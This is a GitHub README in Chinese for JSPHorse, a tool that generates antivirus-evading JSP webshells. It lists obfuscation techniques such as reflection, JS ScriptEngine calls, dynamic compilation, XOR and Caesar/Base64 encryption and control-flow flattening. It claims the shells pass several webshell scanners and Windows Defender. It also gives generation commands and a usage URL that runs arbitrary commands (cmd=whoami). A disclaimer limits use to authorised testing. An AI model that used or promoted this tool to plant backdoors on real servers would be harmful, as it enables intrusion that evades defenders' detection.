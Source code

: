 # JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，支持普通回显Webshell：`1.jsp?pwd=xxx&cmd=whoami`

**已完成蚁剑免杀Webshell**!

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

特点：

- Java反射调用
- ScriptEngine调用JS免杀
- 使用分割和注释绕过可能的JS黑名单
- Javac动态编译class免杀（参考三梦师傅代码）
- 双重随机异或运算加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）
- 已完成蚁剑免杀马！

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

## Quick Start

在Github右侧Release页面下载

生成标准形式基础Webshell

`java -jar JSPHorse.jar -p your_password`

生成蚁剑的免杀Webshell

`java -jar JSPHorse.jar -p your_password --ant`

全局Unicode编码（JSP支持全局Unicode编码）

`java -jar JSPHorse.jar -p your_password -u`

生成进阶版Webshell（Javac动态编译class）

`java -jar JSPHorse.jar -p your_password --super`

进阶版Webshell基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --super -u`

使用ScriptEngine调用JS免杀

`java -jar JSPHorse.jar -p your_password --js`

使用ScriptEngine调用JS免杀基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --js -u`

如何使用？

1.jsp?pwd=your_password&cmd=calc.exe

## 感谢

参考天下大木头师傅的Webshell：https://github.com/KpLi0rn/Shell

参考三梦师傅的Webshell：https://github.com/threedr3am/JSP-Webshells

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的


